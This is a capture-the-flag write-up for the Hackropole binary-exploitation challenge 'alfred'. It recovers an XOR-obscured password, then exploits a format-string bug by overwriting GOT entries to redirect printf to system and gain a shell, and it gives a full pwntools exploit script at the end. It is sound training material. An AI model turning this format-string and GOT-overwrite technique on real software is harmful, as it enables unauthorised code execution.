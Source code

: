 +++
title = "Hackropole | Alfred"
+++

# [Pwn] alfred | hackropole

* [1. Checksec](#checksec)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksec

```bash
[*] '/home/botman/Documents/cybersec/CTF/solo/hackropole/pwn/alfred/alfred'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
## Writeup

We begin with a lill bit of reversing to find the password

![reverse](/images/alfred/reverse.png)

We can see a call to `system` in the function `todo\scripts` which will may be useful later because our binary is staticelly compiled so we don't have to defeat the libc PIE with a leak.

![reverse](/images/alfred/reverse2.png)

We see that the input is simply XORed and then compared with a strange value which is our password encrypted so we just have to find the key and XOR it with the password so we can just break when the encryption happens to get the key

![xor key](/images/alfred/xor_key.png)

We get the key which is 0x35 and with [cyberchef](https://gchq.github.io/CyberChef/) we find the password which is `Alma_and_Pat` so we can continue the challenge and rapidly find a format string

![format string](/images/alfred/fmtstr.png)

So we will be able to rewrite the GOT of our binary to get a shell with the system function but a there is a lill problem, we cannot call any function with the value that we want so we have to loop on `todo_script` so let's have a closer look to this function

![reverse](/images/alfred/reverse3.png)

We see two interesting functions, printf to exec our shell and putc to loop so we're gonna replace the printf GOT value by the address of system and the putc GOT value by our `todo_script` addresse

![shell](/images/alfred/shell.png)

So we gain the shell but we still have to get the flag, so we're gonna use `base64` soft to get the pdf content and then `pdftotext` and tadaaa

![flag](/images/alfred/flag.png)

## Full exploit

```python
from pwn import *
import pdftotext
import base64

def exploit(io, elf, libc=None):
    io.sendlineafter(b'>>> ', b'Alma_and_Pat')

    offset = 7
    writes = {
            elf.got['putc']: elf.sym['todo_scripts'],
            elf.got['printf']: elf.sym['system']
    }

    payload = fmtstr_payload(offset, writes)
    io.sendlineafter(b'>>> ', payload)
    io.sendline(b'/bin/sh')
    io.recvuntil(b'sh: 1: Hello: not found')
    read_files('script_flag.pdf', io)

def read_files(file, io):
    io.sendline(f'base64 {file}'.encode('utf-8'))
    flag = io.recvuntil(b'==')
    flag = base64.b64decode(flag.replace(b'\n', b''))

    with open('flag.pdf', 'w+b') as f:
        f.write(flag)
    
    with open('flag.pdf', 'rb') as f:
        flag = pdftotext.PDF(f)
        io.success(f'flag: {("".join(flag)).replace(chr(0xa), "")}')
```

[download here](/exploits/alfred.py)

**Writed by *0xB0tm4n***
